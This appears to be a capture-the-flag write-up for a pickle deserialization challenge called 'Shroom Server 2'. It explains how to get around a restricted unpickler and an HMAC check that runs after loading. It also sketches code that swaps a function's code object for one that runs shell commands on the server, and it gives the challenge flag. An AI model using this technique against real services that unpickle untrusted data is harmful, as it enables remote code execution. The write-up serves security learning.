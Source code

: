# Solution to Shroom Server 2

This time, the unpickler has restrictions when searching for globals:

```py
if (
  module == "__main__"
  and name.count(".") <= 1
  and "save" in name.lower()
  and len(name) <= 19
):
```

There is only 2 globals that meet the criteria: `SaveState` and `load_state`.

Additionally, the `REDUCE` instruction is not allowed. The bypass is to use eiter the `BUILD_OBJ` or `BUILD_INST` instructions.

There is also a HMAC signature check that prevents an attacker from changing the save state.

However, the save state is still loaded in the restricted unpickler before the signature check is done, this means we can do whatever we want in the unpickler as long as it meets the restrictions above.

We can't create an arbitrary save state as the signature check will fail. So what we do instead is write pickle instructions to overwrite the `load_state` function with our own custom function which will open a shell on the server.


To do this, the solution is roughly equivalent to the following code:

```py
CodeType = SaveState.__class__(load_save) # type(load_save.__code__)
load_save.__code__ = CodeType(
  0, # co_argcount
  0, # co_posonlyargcount
  0, # co_kwonlyargcount
  0, # co_nlocals
  5, # co_stacksize
  3, # co_flags
  b"\x97\x00\t...\x8c0", # co_code
  (None, True, "os", ">>> "), # co_consts
  ("__import__", "system", "input"), # co_names
  (), # co_varnames
  "main.py", # co_filename
  "rce", # co_name
  "rce", # co_qualname
  156, # co_firstlineno
  b"\x80\x00\xf0...\x050", # co_linetable
  b"", # co_exceptiontable
  (), # co_freevars
  (), # co_cellvars
)
```

Send the generated payload to the server, and then try to load a save again, which will cause the arbitrary function to be called.

Flag: YBN24{!ns3R7_pUN_@bouT_5HrO0m$_h3re_4f476ef5d4e877125bba078c82c4cb61}